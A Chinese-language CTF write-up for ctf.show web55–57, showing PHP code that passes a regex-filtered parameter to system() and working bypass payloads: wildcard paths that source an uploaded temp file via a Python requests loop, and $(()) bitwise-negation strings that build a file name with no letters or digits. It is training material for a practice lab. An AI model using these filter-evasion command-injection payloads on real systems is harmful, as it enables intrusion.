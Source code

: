 @[toc](文章目录)

##  web55-56

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\\$|\(|\{|\'|\"|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
```

首先使用点号.来执行命令，跟source命令相同的

参考：[source命令](https://zhuanlan.zhihu.com/p/357335122#:~:text=%E5%AF%BC%E8%AF%BB%EF%BC%9A%20source%E5%91%BD%E4%BB%A4%E6%98%AF%E4%B8%80%E4%B8%AA%E5%86%85%E7%BD%AE%E7%9A%84shell%E5%91%BD%E4%BB%A4%EF%BC%8C%E7%94%A8%E4%BA%8E%E4%BB%8E%E5%BD%93%E5%89%8Dshell%E4%BC%9A%E8%AF%9D%E4%B8%AD%E7%9A%84%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E5%92%8C%E6%89%A7%E8%A1%8C%E5%91%BD%E4%BB%A4%E3%80%82,source%E5%91%BD%E4%BB%A4%E9%80%9A%E5%B8%B8%E7%94%A8%E4%BA%8E%E4%BF%9D%E7%95%99%E3%80%81%E6%9B%B4%E6%94%B9%E5%BD%93%E5%89%8Dshell%E4%B8%AD%E7%9A%84%E7%8E%AF%E5%A2%83%E5%8F%98%E9%87%8F%E3%80%82%20%E7%AE%80%E8%80%8C%E8%A8%80%E4%B9%8B%EF%BC%8Csource%E4%B8%80%E4%B8%AA%E8%84%9A%E6%9C%AC%EF%BC%8C%E5%B0%86%E4%BC%9A%E5%9C%A8%E5%BD%93%E5%89%8Dshell%E4%B8%AD%E8%BF%90%E8%A1%8Cexecute%E5%91%BD%E4%BB%A4%E3%80%82%20source%E5%91%BD%E4%BB%A4%E5%AE%83%E9%9C%80%E8%A6%81%E4%B8%80%E4%B8%AA%E6%96%87%E4%BB%B6%EF%BC%8C%E5%A6%82%E6%9E%9C%E6%8F%90%E4%BE%9B%E4%BA%86%E5%8F%82%E6%95%B0%EF%BC%8C%E9%82%A3%E4%B9%88%E5%B0%86%E7%94%A8%E4%BD%9C%E4%BC%A0%E9%80%92%E8%84%9A%E6%9C%AC%E7%9A%84%E4%BD%8D%E7%BD%AE%E5%8F%82%E6%95%B0%E3%80%82)

使用通配符来构造文件路径。

参考：

[p神的文章]([无字母数字webshell之提高篇 | 离别歌 (leavesongs.com)](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html))

[进阶](https://wh0ale.github.io/2019/01/13/2019-1-13-%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/)

payload

```
c=.+/???/????????[@-[],其中+表示空格，.执行命令。[@-[]是定位字母
```

脚本跑

```python
import requests

while True:
    url = "http://6c925e5e-f607-4a59-9bbd-2302926e1239.challenge.ctf.show:8080/?c=.+/???/????????[@-[]"
    r = requests.post(url, files={"file": ('1.php', b'cat flag.php')})
    if r.text.find("ctfshow") >0:
        print(r.text)
        break
```









##  web57

代码显示

```php
//flag in 36.php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i", $c)){
        system("cat ".$c.".php");
    }
}else{
    highlight_file(__FILE__);
}
```

这道题禁用了通配符和字母数字

我们可以使用$()来构造

```
$(()) 代表做一次运算，因为里面为空，也表示值为0
$((~$(()))) 对0作取反运算，值为-1
$(($((~$(())))$((~$(()))))) -1-1，也就是(-1)+(-1)为-2，所以值为-2
$((~$(($((~$(())))$((~$(()))))))) 再对-2做一次取反得到1，所以值为1

如果对取反不了解可以百度一下，这里给个容易记得式子，如果对a按位取反，则得到的结果为-(a+1)，也就是对0取反得到-1
参考：
取反操作https://www.runoob.com/python3/python3-basic-operators.html
$()构造命令执行：https://www.cnblogs.com/chenpython123/p/11052276.html
```

所有我们只需要构造出-37，然后取反就可以得到结果。

```python
data = "$((~$(("+"$((~$(())))"*37+"))))"
print(data)
```

payload

```
?c=$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))
```

